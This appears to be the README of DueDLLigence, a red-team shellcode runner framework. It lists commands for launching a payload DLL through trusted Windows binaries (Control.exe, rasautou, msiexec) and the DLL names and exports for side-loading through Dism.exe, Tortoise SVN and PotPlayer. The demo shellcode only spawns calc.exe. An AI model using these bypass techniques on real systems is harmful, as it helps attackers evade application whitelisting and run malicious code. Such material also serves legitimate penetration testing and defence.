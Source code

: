# DueDLLigence

Shellcode runner framework for application whitelisting bypasses and DLL side-loading. The shellcode included in this project spawns calc.exe.


If desired, change the injection type by modifying the following line to the appropriate injection type
<br>```public const ExecutionMethod method = ExecutionMethod.CreateThread;```

Running the DLL with the following legitimate exes 

## Application Whitelisting Bypasses. Lolbins

### Control.exe
Export: CPlApplet
Syntax: Rename compiled “dll” extension to “cpl” and just double click it!
<br>```Control.exe [cplfile]```
<br>```Rundll32.exe Shell32.dll, Control_RunDLL [cplfile]```

### Rasautou
Export: powershell
<br>```rasautou –d {dllpayload} –p powershell –a a –e e```

### Msiexec
Export: DllUnregisterServer
<br>```msiexec /z {full path to msiexec.dll}```

## DLL Side-Loading Binaries and Details
### Tortoise SVN (SubWCRev.exe)
<br> DLL == "crshhndl.dll"; Arch == x64; OS == Win7 & 10;
<br> Exports: InitCrashHandler,SendReport,IsReadyToExit,SetCustomInfo,AddUserInfoToReport,RemoveUserInfoFromReport,AddFileToReport,RemoveFileFromReport,GetVersionFromApp,GetVersionFromFile

### Dism Image Servicing Utility (Dism.exe)
<br> DLL == "DismCore.dll"; Arch == x64; OS == Win7 & 10;
<br> Export: DllGetClassObject

### PotPlayerMini
<br> DLL == "PotPlayer.dll"; Arch == x86;
<br> Exports: PreprocessCmdLineExW,UninitPotPlayer,CreatePotPlayerExW,DestroyPotPlayer,SetPotPlayRegKeyW,RunPotPlayer

Credit for the DueDLLigence name goes to Paul Sanders (@saul_panders)

